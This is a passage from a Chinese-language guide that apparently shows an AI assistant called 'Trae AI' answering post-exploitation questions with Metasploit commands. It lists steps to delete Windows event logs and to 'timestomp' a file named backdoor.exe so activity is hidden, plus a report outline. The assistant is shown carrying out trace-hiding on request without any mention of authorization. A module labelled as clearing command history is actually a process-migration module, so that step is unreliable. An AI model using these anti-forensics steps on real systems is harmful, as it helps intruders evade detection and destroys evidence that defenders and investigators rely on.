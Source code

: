 **Trae AI 操作流程：**
```
# Windows 事件日誌清理
use post/windows/manage/delete_logs
set SESSION 1
run

# 清理命令歷史
use post/windows/manage/priv_migrate
set SESSION 1
run
```

### 18. 時間戳修改

**用戶提問：**
```
修改文件時間戳以隱藏活動痕跡
```

**Trae AI 操作流程：**
```
# 修改文件時間戳
use post/windows/manage/timestomp
set SESSION 1
set TARGET_FILE C:\\temp\\backdoor.exe
set BLANK true
run
```

## 報告和文檔

### 19. 自動化報告生成

**用戶提問：**
```
生成後滲透活動的詳細報告
```

**Trae AI 建議的報告內容：**
1. **執行摘要**：攻擊路徑和關鍵發現
2. **系統信息**：目標系統的詳細配置
3. **發現的漏洞**：安全弱點和配置問題
4. **獲得的訪問權限**：權限級別和訪問範圍
5. **敏感數據**：發現的敏感信息類型
6. **修復建議**：具體的安全改進措施

### 20. 證據保全

**用戶提問：**
```
如何正確保存和管理收集的證據？
```
